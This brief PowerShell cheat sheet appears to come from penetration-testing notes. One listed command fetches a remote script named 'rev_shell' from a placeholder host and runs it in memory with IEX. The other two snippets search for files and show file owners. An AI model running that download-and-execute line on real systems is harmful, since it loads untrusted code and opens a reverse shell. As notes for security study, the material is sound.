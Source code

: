 # Powershell

## Usage

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Search for files

	Get-ChildItem -force -Path "C:\Path\To\Search" -Recurse -Filter "filename*"

Show owners of files and dirs

	cmd.exe /c "dir /q"